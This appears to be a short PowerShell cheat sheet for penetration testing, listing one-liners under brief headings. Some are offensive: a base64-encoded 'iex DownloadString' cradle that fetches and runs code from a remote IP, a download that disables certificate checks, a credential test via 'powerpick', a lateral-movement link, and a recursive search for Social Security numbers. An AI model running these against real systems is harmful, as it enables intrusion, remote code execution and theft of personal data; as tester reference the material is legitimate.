 Download a file
```
    [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(new-object system.net.webclient).downloadfile("https://www.mydomain.com/file","C:\Users\username\AppData\Local\Temp\file.txt")
```

Encode string
```
    echo "iex (New-Object Net.WebClient).DownloadString('http://192.168.1.1:80/file')" | iconv --to-code UTF-16LE | base64 -w 0
```

List recently modified files in path (U:)
```
    Get-Childitem u:\ -Recurse | where-object {!($_.psiscontainer)} | where { $_.LastWriteTime -gt $(Get-Date).AddDays(-1)  } | foreach {"$($_.LastWriteTime) :: $($_.Fullname) "  }
```

List Files 
```
    Select-String -Path c:\fso\*.txt, c:\fso\*.log -pattern ed
```

List First 100 Files
```
    Get-ChildItem -Path XXX |Select -First 100 Fullname
```

List a Process's Loaded Modules (DLL)
```
    get-process -id 1234|select -expand modules
```

Remote Command Execution using MMC
```
    https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/
```

Get LocalAccountTokenFilterPolicy (Determine if you can authenticate to admin resources over the network, i.e. C$,ADMIN$)
```
    Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ |Select LocalAccountTokenFilterPolicy |fl
```

Test User Credentials
```
    powerpick $password = ConvertTo-SecureString "PlainTextPassword" -AsPlainText -Force;$cred= New-Object System.Management.Automation.PSCredential ("domain\name", $password);
```

Search for SSN

 https://technet.microsoft.com/en-us/library/2008.04.securitywatch.aspx
```
    $SSN_Regex = " [0-9]{3}[-| ][0-9]{2}[-| ][0-9]{4}" ; Get-ChildItem . -Recurse -exclude *.exe,*.dll| Select-String -Pattern $SSN_Regex | Select-String -Pattern $SSN_Regex| Select-Object Path,Filename,Matches |ft -auto|out-string -width 200; "[*] SSN Search Complete!"
```
